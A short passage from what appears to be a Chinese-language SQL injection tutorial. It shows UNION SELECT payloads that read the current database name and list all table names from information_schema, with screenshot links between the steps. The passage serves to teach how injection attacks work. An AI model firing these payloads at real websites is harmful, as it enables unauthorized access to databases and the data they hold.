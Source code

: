 ![&#x53EF;&#x77E5;&#x5F53;&#x524D;&#x8868;&#x6709;4&#x5217;](../.gitbook/assets/5_3.png)

### 获取当前数据库名称

```sql
  union select 1,database(),3,4
```

![&#x53EF;&#x77E5;&#x5F53;&#x524D;&#x8868;&#x6709;4&#x5217;](../.gitbook/assets/5_4.png)

获取当前表所在数据库的所有表

```sql
  union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema = database()
```
